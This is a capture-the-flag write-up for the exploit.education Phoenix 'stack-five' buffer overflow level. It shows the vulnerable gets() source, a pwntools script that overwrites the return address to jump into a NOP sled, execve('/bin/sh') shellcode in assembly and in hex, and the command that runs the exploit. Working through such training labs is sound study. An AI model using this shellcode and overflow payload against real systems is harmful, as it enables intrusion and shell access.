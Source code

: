 
As opposed to executing an existing function in the binary, this time we’ll be introducing the concept of “shell code”, and being able to execute our own code.

**Hints**

-   Don’t feel like you have to write your own shellcode just yet – there’s plenty on the internet.
-   If you wish to debug your shellcode, be sure to make use of the [breakpoint](https://en.wikipedia.org/wiki/Breakpoint) instruction. On i386 / x86_64, that’s 0xcc, and will cause a SIGTRAP.
-   Make sure you remove those breakpoints after you’re done.

```c
/*
 * phoenix/stack-five, by https://exploit.education
 *
 * Can you execve("/bin/sh", ...) ?
 *
 * What is green and goes to summer camp? A brussel scout.
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void start_level() {
  char buffer[128];
  gets(buffer);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```

# Solution

Use pattern create and feed in the data to crash the program

![[../res/Pasted image 20230324141500.png]]

Not too sure what the goal is here, if its just to run shellcode, then we can write a simple hello world in assembly to demonstrate this process.

We need to construct our payload so it resembles:
nop sled -> shellcode -> padding -> rbp -> rip(point this at the start of the stack so the nop sled runs)


```python
from pwn import *

shellcode = b"\xCC"


# build the payload
payload = b"\x90" * 50
#sigtrap for testing
payload += shellcode
#padd till end
payload += b"A" * (136 - len(payload))
# overwrite RIP
payload += p64(0x7fffffffe5b0)

print(payload)
```

In order to debug this, use the syntax ` r <<< $(python ~/s5.py)` within gdb.

You will see once the fuction attempts to return from start_level(), it ends up in your nop sled.

![[res/Pasted image 20230324144055.png]]

Now we just need to craft some proper shellcode, and be on our way:

```c
; execve("/bin/sh", ["/bin/sh"], NULL)

section .text
		global _start

_start:
		xor     rdx, rdx
		mov     qword rbx, '//bin/sh'
		shr     rbx, 0x8
		push    rbx
		mov     rdi, rsp
		push    rax
		push    rdi
		mov     rsi, rsp
		mov     al, 0x3b
		syscall
```
and compile it into shellcode form with:

```bash
nasm -f elf64 es.s -g ;ld -s es.o -o es
objcopy -j.text -O binary es shellFormat.bin
hexdump -v -e '"\\""x" 1/1 "%02x" ""' shellFormat.bin
```

This will output in a python friendly form, for copy pasting into your script.
```python
shellcode = b"\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"
```

none of my shellcodes work inside the VM... kinda lame. Heres one i pulled from `https://shell-storm.org/shellcode/files/shellcode-806.html`

```python
shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
```

This one does the trick.

So now the final solution is:

```python
#!/usr/bin/env python
from pwn import *

shellcode = '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
# build the payload
payload = b"\x90" * 30
#sigtrap for testing
payload += shellcode
#padd till end
payload += b"A" * (136 - len(payload))
# overwrite RIP
payload += p64(0x7fffffffe5d0)

print(payload)
```

and to run it:

```bash
(python s5.py; cat) | /opt/phoenix/amd64/stack-five
```

You need to use cat to maintain the stdio once your exploit works.


